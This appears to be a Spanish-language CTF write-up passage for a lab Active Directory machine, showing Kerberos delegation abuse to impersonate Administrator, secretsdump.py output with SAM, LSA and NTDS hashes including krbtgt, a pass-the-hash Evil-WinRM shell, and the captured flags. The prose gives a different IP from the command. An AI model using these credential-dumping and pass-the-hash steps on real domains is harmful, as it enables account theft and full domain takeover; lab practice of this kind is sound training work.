[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@oakley_DC.COOCTUS.CORP@COOCTUS.CORP.ccache
Ticket Kerberos Obtenido:

Antes de ejecutar herramientas como psexec.py con autenticación Kerberos, fue necesario asegurarse de que el nombre del controlador de dominio (dc.cooctus.corp) resolviera correctamente a su dirección IP. Esto se solucionó manualmente añadiendo una entrada en el archivo /etc/hosts.
#export KRB5CCNAME=Administrator@oakley_DC.COOCTUS.CORP@COOCTUS.CORP.ccache
Se exporta la variable de entorno KRB5CCNAME apuntando al archivo Administrator@oakley_DC.COOCTUS.CORP@COOCTUS.CORP.ccache, que contiene el ticket de servicio Kerberos para el usuario Administrator.
Esto permite que herramientas como secretsdump.py utilicen automáticamente ese ticket para autenticarse contra servicios Kerberos del dominio sin necesidad de contraseña.
#python3 secretsdump.py -k -no-pass DC.COOCTUS.CORP
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xe748a0def7614d3306bd536cdc51bebe
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7dfa0531d73101ca080c7379a9bff1c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
COOCTUS\DC$:plain_password_hex:08741afe14c1a7273097c03620e437e105cf9ad41a5fcf80293132172e784353b9d808c1e22a4ecb8db88fab1c46c3529099cf6a5015f7be47d24d056e44898f1c72360b35b32618c82fef82dd0a0ef3bff5cf32e567639c4a43fd2be1546b619dd13923edd25e97ff4b6c4790d3ee9b5a6520b2c8d181c6406845dd235018aa361263b585ca96581f007ebffc7592eda9926027b9c6512cd04ecf715037455b2b6061675472f886b43a77732681ec3ff0b11670f926cdaa8d610271ff3bc7b50af75d2986c4a8a54eb99a4357449cb61a95330fe8b2c93f6847cb6ccf7a2b05970ca38a69c002b8bc78d39c277dedd1
COOCTUS\DC$:aad3b435b51404eeaad3b435b51404ee:1d60f5ff85d649df3341e9b7991ccb8c:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0xdadf91990ade51602422e8283bad7a4771ca859b
dpapi_userkey:0x95ca7d2a7ae7ce38f20f1b11c22a05e5e23b321b
[*] NL$KM
0000 D5 05 74 5F A7 08 35 EA EC 25 41 2C 20 DC 36 0C ..t_..5..%A, .6.
0010 AC CE CB 12 8C 13 AC 43 58 9C F7 5C 88 E4 7A C3 .......CX..\..z.
0020 98 F2 BB EC 5F CB 14 63 1D 43 8C 81 11 1E 51 EC ...._..c.C....Q.
0030 66 07 6D FB 19 C4 2C 0E 9A 07 30 2A 90 27 2C 6B f.m...,...0*.',k
NL$KM:d505745fa70835eaec25412c20dc360caccecb128c13ac43589cf75c88e47ac398f2bbec5fcb14631d438c81111e51ec66076dfb19c42c0e9a07302a90272c6b
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:add41095f1fb0405b32f70a489de022d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d4609747ddec61b924977ab42538797e:::
Se ejecutó secretsdump.py para extraer credenciales y secretos del controlador de dominio DC.COOCTUS.CORP. Se obtuvieron varios tipos de datos útiles, incluyendo:
#evil-winrm -u Administrator -H add41095f1fb0405b32f70a489de022d -i 10.10.137.157
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
El comando de Evil-WinRM se ejecutó correctamente, lo que permitió obtener una sesión remota con el usuario Administrator en la máquina con IP 10.10.14.133 utilizando el hash NTLM add41095f1fb0405b32f70a489de022d. Aunque se mostró una advertencia relacionada con la limitación en Ruby para la completar rutas remotas, esto no afectó el acceso.
*Evil-WinRM* PS C:\Shares\Home> type user.txt
THM{Gu3st_Pl3as3}
*Evil-WinRM* PS C:\Shares\Home> type priv-esc-2.txt
THM{Wh4t-t0-d0...Wh4t-t0-d0}
*Evil-WinRM* PS C:\Shares\Home> type priv-esc.txt
THM{0n-Y0ur-Way-t0-DA}
*Evil-WinRM* PS C:\Shares\Home> cd C:\PerfLogs\Admin\
*Evil-WinRM* PS C:\PerfLogs\Admin> ls
Directory: C:\PerfLogs\Admin
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 6/7/2021 8:07 PM 22 root.txt
*Evil-WinRM* PS C:\PerfLogs\Admin> type root.txt
THM{Cr0ccCrewStr1kes!}
*Evil-WinRM* PS C:\PerfLogs\Admin>
Durante la sesión con Evil-WinRM, se accedieron a diferentes directorios del sistema y se descubrieron todas las flags del CTF, lo que indica que se ha completado con éxito el reto.